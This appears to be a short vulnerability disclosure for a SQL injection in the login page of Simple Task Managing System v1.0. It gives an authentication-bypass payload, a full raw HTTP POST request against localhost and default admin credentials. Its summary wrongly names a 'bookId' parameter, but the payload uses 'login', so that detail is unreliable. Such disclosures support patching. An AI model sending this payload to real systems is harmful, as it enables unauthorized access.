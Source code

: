 # Simple Task Managing System - SQL injection

Simple Task Managing System v1.0 exists to contain a SQL injection vulnerability via the bookId parameter at /loginValidation.php

username:admin password:admin ----> {ip}/loginValidation.php

Supplier： https://www.sourcecodester.com/php/15624/simple-task-managing-system-php-mysqli-free-source-code.html

/loginValidation.php has SQL injection

Payload: login=admin%27and%27q%27%3D%27q&password=admin

SQL injection because login can be closed

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_10-41-42.png)

```sql
POST /cve/Task%20Managing%20System%20in%20PHP/loginValidation.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 46
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Language: zh-CN,zh;q=0.9
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=34a9idaoj7m7miduqt31hupisn
Origin: http://localhost
Referer: http://localhost/cve/Task%20Managing%20System%20in%20PHP/login.php
Sec-Ch-Ua: ";Not A Brand";v="99", "Chromium";v="94"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Upgrade-Insecure-Requests: 1
Accept-Encoding: gzip

login=admin%27and%27q%27%3D%27q&password=admin
```

![image](https://raw.githubusercontent.com/xidaner/CVE_HUNTER/main/img/2022-09-01/Snipaste_2022-09-01_10-39-13.png)